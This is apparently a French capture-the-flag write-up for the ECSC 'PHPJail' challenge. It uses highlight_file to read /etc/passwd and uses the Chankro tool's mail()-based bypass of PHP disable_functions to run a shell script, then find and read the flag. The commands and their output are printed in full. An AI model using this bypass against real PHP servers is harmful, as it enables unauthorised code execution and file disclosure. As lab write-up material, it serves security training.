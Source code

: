 # [ECSC] - PHPJail


## Description

> Saurez-vous sortir de cette prison PHP pour retrouver le fichier flag présent sur le système ?

## Etat des lieux

Nous sommes face à une jail PHP, commençons par un `phpinfo();` histoire de voir ce qui n'est pas autorisé:

```bash
➜  phpjail cat <(echo "phpinfo();") - | nc challenges.ecsc-teamfrance.fr 4002
    /// PHP JAIL ////

    There's a file named flag on this filesystem.
    Find it.
    Read it.
    Flag it.


Enter your command: phpinfo()
PHP Version => 7.0.33-0+deb9u3
[...]
disable_classes => Directory, DirectoryIterator, FilesystemIterator, GlobIterator, RecursiveDirectoryIterator, SplFileObject, SplFileInfo => Directory, DirectoryIterator, FilesystemIterator, GlobIterator, RecursiveDirectoryIterator, SplFileObject, SplFileInfo
disable_functions => system, exec, shell_exec, passthru, show_source, popen, proc_open, fopen_with_path, dbmopen, dbase_open, move_uploaded_file, chdir, mkdir, rmdir, rename, filepro, filepro_rowcount, filepro_retrieve, posix_mkfifo, fopen, fread, file_get_contents, readfile, opendir, readdir, scandir, glob, file, dir, posix_ctermid, posix_getcwd, posix_getegid, posix_geteuid, posix_getgid, posix_getgrgid, posix_getgrnam, posix_getgroups, posix_getlogin, posix_getpgid, posix_getpgrp, posix_getpid, posix, _getppid, posix_getpwnam, posix_getpwuid, posix_getrlimit, posix_getsid, posix_getuid, posix_isatty, posix_kill, posix_mkfifo, posix_setegid, posix_seteuid, posix_setgid, posix_setpgid, posix_setsid, posix_setuid, posix_times, posix_ttyname, posix_uname, virtual, openlog, closelog, ini_set, ini_restore, ignore_user_abort, link, pcntl_alarm, pcntl_exec, pcntl_fork, pcntl_get_last_error, pcntl_getpriority, pcntl_setpriority, pcntl_signal, pcntl_signal_dispatch, pcntl_sigprocmask, pcntl_sigtimedwait, pcntl_sigwaitinfo, pcntl_strerror, pcntl_wait, pcntl_waitpid, pcntl_wexitstatus, pcntl_wifexited, pcntl_wifsignaled, pcntl_wifstopped, pcntl_wstopsig, pcntl_wtermsig, ftp_connect, ftp_exec, ftp_get, ftp_login, ftp_nb_fput, ftp_put, ftp_raw, ftp_rawlist, is_dir => system, exec, shell_exec, passthru, show_source, popen, proc_open, fopen_with_path, dbmopen, dbase_open, move_uploaded_file, chdir, mkdir, rmdir, rename, filepro, filepro_rowcount, filepro_retrieve, posix_mkfifo, fopen, fread, file_get_contents, readfile, opendir, readdir, scandir, glob, file, dir, posix_ctermid, posix_getcwd, posix_getegid, posix_geteuid, posix_getgid, posix_getgrgid, posix_getgrnam, posix_getgroups, posix_getlogin, posix_getpgid, posix_getpgrp, posix_getpid, posix, _getppid, posix_getpwnam, posix_getpwuid, posix_getrlimit, posix_getsid, posix_getuid, posix_isatty, posix_kill, posix_mkfifo, posix_setegid, posix_seteuid, posix_setgid, posix_setpgid, posix_setsid, posix_setuid, posix_times, posix_ttyname, posix_uname, virtual, openlog, closelog, ini_set, ini_restore, ignore_user_abort, link, pcntl_alarm, pcntl_exec, pcntl_fork, pcntl_get_last_error, pcntl_getpriority, pcntl_setpriority, pcntl_signal, pcntl_signal_dispatch, pcntl_sigprocmask, pcntl_sigtimedwait, pcntl_sigwaitinfo, pcntl_strerror, pcntl_wait, pcntl_waitpid, pcntl_wexitstatus, pcntl_wifexited, pcntl_wifsignaled, pcntl_wifstopped, pcntl_wstopsig, pcntl_wtermsig, ftp_connect, ftp_exec, ftp_get, ftp_login, ftp_nb_fput, ftp_put, ftp_raw, ftp_rawlist, is_dir
[...]
```

Bon, ça fait un paquet de choses interdites.

## Read everywhere

La fonction `highlight_file();` n'est pas bloqué, on va s'en servir pour lire des fichiers :

```bash
➜  phpjail cat <(echo "highlight_file('/etc/passwd');") - | nc challenges.ecsc-teamfrance.fr 4002

    /// PHP JAIL ////

    There's a file named flag on this filesystem.
    Find it.
    Read it.
    Flag it.


Enter your command: <code><span style="color: #000000">
root:x:0:0:root:/root:/bin/bash<br />daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin<br />bin:x:2:2:bin:/bin:/usr/sbin/nologin<br />sys:x:3:3:sys:/dev:/usr/sbin/nologin<br />sync:x:4:65534:sync:/bin:/bin/sync<br />games:x:5:60:games:/usr/games:/usr/sbin/nologin<br />man:x:6:12:man:/var/cache/man:/usr/sbin/nologin<br />lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin<br />mail:x:8:8:mail:/var/mail:/usr/sbin/nologin<br />news:x:9:9:news:/var/spool/news:/usr/sbin/nologin<br />uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin<br />proxy:x:13:13:proxy:/bin:/usr/sbin/nologin<br />www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin<br />backup:x:34:34:backup:/var/backups:/usr/sbin/nologin<br />list:x:38:38:Mailing&nbsp;List&nbsp;Manager:/var/list:/usr/sbin/nologin<br />irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin<br />gnats:x:41:41:Gnats&nbsp;Bug-Reporting&nbsp;System&nbsp;(admin):/var/lib/gnats:/usr/sbin/nologin<br />nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin<br />_apt:x:100:65534::/nonexistent:/bin/false<br />Debian-exim:x:101:101::/var/spool/exim4:/bin/false<br />messagebus:x:102:103::/var/run/dbus:/bin/false<br />user0:x:999:999::/home/user0:/bin/zsh<br /></span>
</code>
Bye!
```

## Command execution

On peut remarquer que la fonction `mail();` n'est pas non plus bloquée, on pourrait s'en servir.

> https://www.tarlogic.com/en/blog/how-to-bypass-disable_functions-and-open_basedir/

Tarlogic a fait un outil permettant de créer un fichier PHP avec le payload et les libs embarqués:

> https://github.com/TarlogicSecurity/Chankro

Premièrement, localiser le fichier flag:

```bash
(Chankro) ➜  Chankro git:(master) ✗ cat rev.sh
#!/bin/sh

find / -name flag > /tmp/asas

(Chankro) ➜  Chankro git:(master) ✗ python chankro.py --arch 64 --input rev.sh --output chan.php --path /tmp/


     -=[ Chankro ]=-
    -={ @TheXC3LL }=-


[+] Binary file: rev.sh
[+] Architecture: x64
[+] Final PHP: chan.php


[+] File created!
```

Pour pouvoir executer le contenu de `chan.php` on va virer les balises PHP `<?php ?>` et les saut de lignes. Lorsque c'est fait, il ne reste plus qu'à l'envoyer:

```bash
(Chankro) ➜  Chankro git:(master) ✗ cat chan.php - | nc challenges.ecsc-teamfrance.fr 4002
[...]
Enter your command:
Bye!

(Chankro) ➜  Chankro git:(master) ✗ cat <(echo "highlight_file('/tmp/asas');") - | nc challenges.ecsc-teamfrance.fr 4002
[...]
Enter your command: <code><span style="color: #000000">
/home/user0/.sensitive/randomdir/flag<br />/usr/local/lib/python2.7/dist-packages/pwnlib/flag<br /></span>
</code>
Bye!
```

> /home/user0/.sensitive/randomdir/flag

```bash
(Chankro) ➜  Chankro git:(master) ✗ cat <(echo "highlight_file('/home/user0/.sensitive/randomdir/flag');") - | nc challenges.ecsc-teamfrance.fr 4002
[...]
Enter your command: <code><span style="color: #000000">
ECSC{22b1843abfd76008ce3683e583c66e85c6bbdc65}<br /></span>
</code>
Bye!
```

## Flag

> ECSC{22b1843abfd76008ce3683e583c66e85c6bbdc65}
